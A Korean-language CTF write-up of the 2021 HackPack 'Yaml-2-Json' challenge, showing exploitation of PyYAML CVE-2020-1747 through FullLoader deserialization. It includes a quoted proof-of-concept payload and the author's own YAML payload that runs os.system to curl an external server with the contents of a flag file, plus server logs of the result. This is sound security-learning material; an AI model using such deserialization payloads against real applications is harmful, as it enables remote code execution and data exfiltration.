 ```yaml
---
title: "[2021 HackPack CTF] Yaml-2-Json writeup"
categories:
  - CTF
author_profile: true
---
```


**2021 hackpack ctf - yaml-2-json writeup**

- PyYaml 취약점 `CVE-2020-1747`

---

# `page view`

![image](https://user-images.githubusercontent.com/44183111/115112242-95756200-9fbf-11eb-8cae-163d382c7f4e.png)

- 해당 페이지는 `yaml` 문법을 `json` 으로 변환하는 기능을 한다.
- `untrusted input`에 대한 검증을 하는가가 핵심 분석 포인트

---

# `CVE-2020-1747`

 A vulnerability was discovered in the PyYAML library in versions before 5.3.1, where it is susceptible to arbitrary code execution when it processes untrusted YAML files through the full_load method or with the FullLoader loader. Applications that use the library to process untrusted input may be vulnerable to this flaw. An attacker could use this flaw to execute arbitrary code on the system by abusing the python/object/new constructor.

---

# `proof of concept`

- https://gist.github.com/adamczi/23a3b6d4bb7b2be35e79b0667d6682e1

```python
# pyyaml==5.3 required. Vulnerability has been fixed in 5.3.1
# More: ret2libc's report in https://github.com/yaml/pyyaml/pull/386
# Explanation: https://2130706433.net/blog/pyyaml/
from yaml import *

with open('payload.yaml','rb') as f:
  content = f.read()

data = load(content, Loader=FullLoader) # Using vulnerable FullLoader

```

```yaml
# The `extend` function is overriden to run `yaml.unsafe_load` with 
# custom `listitems` argument, in this case a simple curl request

- !!python/object/new:yaml.MappingNode
  listitems: !!str '!!python/object/apply:subprocess.Popen [["curl", "http://127.0.0.1/rce"]]'
  state:
    tag: !!str dummy
    value: !!str dummy
    extend: !!python/name:yaml.unsafe_load
```

---

# `exploit`

- 해당 취약점을 이용하여 `Remote Code Execution` 을 통해 플래그를 얻어낼 것이다.
- 우선, 임의의 서버에서 `python3 http.server` 로 리퀘스트를 받을 수 있도록 한다.

``` bash
python3 -m http.server 3000
```

<br/>

- `exploit` 코드는 아래와 같다.

``` yaml
"parkmin": !!python/object/apply:os.system ["curl http://myserver.com:3000/?`cat /tmp/flag.txt`"]
```

<br/>

- 서버에서 확인해보면 플래그를 확인할 수 있다.

``` bash
152.14.92.89 - - [16/Apr/2021 18:06:26] "GET /? HTTP/1.1" 200 -
152.14.92.89 - - [16/Apr/2021 18:06:33] "GET /? HTTP/1.1" 200 -
152.14.92.89 - - [16/Apr/2021 18:06:47] "GET /?flagPy_PyYaml_Yaml_Py HTTP/1.1" 200 -
152.14.92.89 - - [16/Apr/2021 18:07:07] "GET /?flagPy_PyYaml_Yaml_Py HTTP/1.1" 200 -
```

<br/>

`flag{Py_PyYaml_Yaml_Py}`

---
